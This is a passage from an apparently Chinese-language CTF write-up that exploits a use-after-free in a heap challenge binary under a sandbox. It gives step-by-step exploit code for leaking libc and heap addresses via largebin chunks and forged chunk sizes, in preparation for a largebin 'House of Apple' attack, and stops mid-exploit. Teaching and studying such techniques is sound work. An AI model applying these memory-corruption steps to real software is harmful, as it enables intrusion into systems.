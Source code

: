 其中 add 功能只能 add largebin chunk

free 功能里有 UAF 漏洞

```plain
if ( index <= 0x20 && pwn_ptr[index] )
      free(pwn_ptr[index]);
```

并且开启了沙箱

### 攻击流程

largebin chunk 的优点就是泄露 libc 较为简单

free 掉就可以泄露了，要注意防止合并

```plain
add(0,0x500,'aaaa')
add(1,0x500,'aaaa')
#chunk0+chunk1 = heapbase --> heapbase+0x1000
delete(0)
show(0)
```

[![](assets/1701606552-b7b106092113cdda671af9af43507a1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231122121159-480c98fc-88ed-1.png)

然后由于 apple 需要利用 largebin attack，所以还要泄露 heap\_base（选 2.31 不用考虑 safe-linking 的 12 异或，图个方便）

先把 chunk1 free 掉，让两个 chunk 都合并到 topchunk 中，然后再 add 3 个 chunk

```plain
delete(1)
add(2,0x420,'bbbb')
add(3,0x420,'bbbb')
add(4,0x420,'bbbb')
```

利用 edit after free 修改 size 让 chunk free 之后进入到 tcachebin 中，show 出 heap 地址

```plain
edit(0,'\x00'*0x420+p64(0)+p64(0x41))
edit(1,'\x00'*0x340+p64(0)+p64(0x41))

delete(3)
delete(4)
show(4)
```
